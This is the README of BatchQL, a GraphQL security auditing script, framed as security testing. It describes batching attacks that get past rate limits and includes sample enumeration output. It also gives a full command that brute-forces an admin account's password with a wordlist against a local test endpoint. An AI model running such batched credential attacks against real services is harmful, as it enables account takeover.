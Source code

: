 # BatchQL

BatchQL is a GraphQL security auditing script with a focus on performing batch GraphQL queries and mutations. This script is not complex, and we welcome improvments.

When exploring the problem space of GraphQL batching attacks, we found that there were a few blog posts on the internet, however no tool to perform GraphQL batching attacks.

GraphQL batching attacks can be quite serious depending on the functionalities implemented. For example, imagine a password reset functionality which expects a 4 digit pin that was sent to your email. With this tool, you could attempt all 10k pin attempts in a single GraphQL query. This may bypass any rate limiting or account lockouts depending on the implementation details of the password reset flow.

# Detections

This tool is capable of detecting the following:

- Introspection query support
- Schema suggestions detection
- Potential CSRF detection
- Query name based batching
- Query JSON list based batching

# Attacks

Currently, this tool only supports sending JSON list based queries for batching attacks. It supports scenarios where the variables are embedded in the query, or where they are provided in the JSON input.

# Usage

## Enumeration

```
❯ python batch.py -e http://re.local:5000/graphiql -p localhost:8080

Schema suggestions enabled. Use Clairvoyance to recover schema: https://github.com/nikitastupin/clairvoyance
CSRF GET based successful. Please confirm that this is a valid issue.
CSRF POST based successful. Please confirm that this is a valid issue.
Query name based batching: GraphQL batching is possible... preflight request was successful
Query JSON list based batching: GraphQL batching is possible... preflight request was successful
Most provide query, wordlist, and size to perform batching attack.
```

## Batching Attacks

1. Save a file that contains your GraphQL query i.e. `acc-login.txt`:

```
mutation emailLoginRemembered($loginInput: InputRememberedEmailLogin!) {
  emailLoginRemembered(loginInput: $loginInput) {
    authToken {
      accessToken
      __typename
    }
    userSessionResponse {
      userToken
      userIdentity {
        userId
        identityType
        verified
        onboardingStatus
        registrationReferralCode
        userReferralInfo {
          referralCode {
            code
            valid
            __typename
          }
          __typename
        }
        __typename
      }
      __typename
    }
    __typename
  }
  }
```

2. Run the following command to run a GraphQL batching attack:

```
❯ python batch.py --query acc-login.txt --wordlist passwords.txt -v '{"loginInput":{"email":"admin@shubs.io","password":"#VARIABLE#","rememberMe":false}}' --size 100 -e http://re.local:5000/graphiql -p localhost:8080
```

The above command does the following:

- Specifies a query from a local file `--query acc-login.txt`.
- Specifies a wordlist `--wordlist passwords.txt`
- Specifies the variable input with the replacement identifier `-v {"loginInput":{"email":"admin@shubs.io","password":"#VARIABLE#","rememberMe":false}}`
- Specifies the batch size `--size 100`
- Specifies the endpoint `-e http://re.local:5000/graphiql`
- Specifies a proxy `-p localhost:8080`

# References

[GraphQL Batching Attack - Wallarm](https://lab.wallarm.com/graphql-batching-attack/)
[Mitigating Batching Attacks](https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html#mitigating-batching-attacks)
